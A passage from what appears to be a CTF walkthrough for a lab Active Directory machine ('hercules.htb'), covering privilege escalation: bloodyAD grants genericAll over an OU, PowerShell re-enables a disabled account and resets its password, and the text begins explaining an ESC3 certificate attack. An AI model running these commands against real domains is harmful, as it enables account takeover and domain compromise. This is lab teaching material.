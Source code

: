 ## Phase 7: Privilege Escalation to Domain Admin

This complex chain involves:
1. OU permissions manipulation
2. ESC3 certificate attack
3. Service account chain exploitation
4. Resource-Based Constrained Delegation (RBCD)

### Step 7.1: Grant Forest Migration Permissions

**Open NEW terminal (keep WinRM session open):**

```
cd ~/Downloads
export KRB5CCNAME=$(pwd)/auditor.ccache

# Grant auditor genericAll on Forest Migration OU
bloodyAD --host dc.hercules.htb -d hercules.htb -k --dc-ip 10.10.11.91 \
  add genericAll "OU=FOREST MIGRATION,OU=DCHERCULES,DC=hercules,DC=htb" auditor
```

**Learning Point:** `genericAll` is the most powerful AD permission, granting full control over an object or container. This allows auditor to modify any object within the Forest Migration OU, including enabling disabled accounts.

**⚠️ Critical:** A cleanup script runs every ~10 minutes and resets these permissions. If you encounter access denied errors later, re-run this command.

### Step 7.2: Enable fernando.r

**In WinRM session as auditor:**

```powershell
# Enable the disabled account
Enable-ADAccount -Identity fernando.r
Set-ADUser fernando.r -Enabled $true

# Set known password
Set-ADAccountPassword -Identity fernando.r `
  -NewPassword (ConvertTo-SecureString "Pwned123!" -AsPlainText -Force) -Reset

# Verify
Get-ADUser fernando.r | Select-Object Enabled
```

**Learning Point:** `fernando.r` is a member of groups with certificate enrollment rights. We'll use this account to perform an ESC3 attack.

### Step 7.3: ESC3 Certificate Attack (fernando.r → ashley.b)

**Understanding ESC3:**

ESC3 (Enrollment Agent Abuse) is a misconfiguration where:
1. A certificate template allows enrollment agent functionality
2. Another template allows specifying a subject alternative name
3. An attacker with enrollment agent cert can request certificates for ANY user
